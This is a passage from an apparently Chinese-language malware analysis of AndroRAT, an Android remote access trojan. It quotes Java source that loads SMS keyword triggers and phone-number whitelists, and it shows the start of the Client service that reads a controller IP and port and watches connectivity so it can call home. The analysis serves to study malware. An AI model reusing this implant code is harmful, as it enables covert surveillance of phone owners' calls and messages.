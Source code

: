 ```java
			StringTokenizer st = new StringTokenizer(keywords, ";");
			while (st.hasMoreTokens())
			{
				smsKeyWords.add(st.nextToken());
			}
			p.setKeywordSMS(smsKeyWords);
		}
		
		ArrayList<String> whiteListCall = new ArrayList<String>();
		String listCall = settings.getString("numCall", "");
		if(listCall.equals(""))
			whiteListCall = null;
		else {
			StringTokenizer st = new StringTokenizer(listCall, ";");
			while (st.hasMoreTokens())
			{
				whiteListCall.add(st.nextToken());
			}
			p.setPhoneNumberCall(whiteListCall);
		}
		
		
		ArrayList<String> whiteListSMS = new ArrayList<String>();
		String listSMS = settings.getString("numSMS", "");
		if(listSMS.equals(""))
			whiteListSMS = null;
		else {
			StringTokenizer st = new StringTokenizer(listSMS, ";");
			while (st.hasMoreTokens())
			{
				whiteListSMS.add(st.nextToken());
			}
			p.setPhoneNumberSMS(whiteListSMS);
		}
		return p;
	}
```

之后根据我们前面分析的BootReceiver和AndroratActivity可以知道Client服务的启动是靠startService方法来启动的，而这个方法会触发Client的onStartCommand的方法。下面我们来一段一段的来分析这个方法，先来看第一段：

```java
	public int onStartCommand(Intent intent, int flags, int startId) {
		//toast = Toast.makeText(this	,"Prepare to laod", Toast.LENGTH_LONG);
		//loadPreferences("preferences");
		//Intent i = new Intent(this,Preferences.class);
		//startActivity(i);
		if(intent == null)
			return START_STICKY;
		String who = intent.getAction();
		Log.i(TAG, "onStartCommand by: "+ who); //On affiche qui a déclenché l'event
		
		if (intent.hasExtra("IP"))
			this.ip = intent.getExtras().getString("IP");
		if (intent.hasExtra("PORT"))
			this.port = intent.getExtras().getInt("PORT");		
		
		if(!isRunning) {// C'est la première fois qu'on le lance
			
		  	//--- On ne passera qu'une fois ici ---
		    IntentFilter filterc = new IntentFilter("android.net.conn.CONNECTIVITY_CHANGE"); //Va monitorer la connexion
		    registerReceiver(ConnectivityCheckReceiver, filterc);
			isRunning = true;
```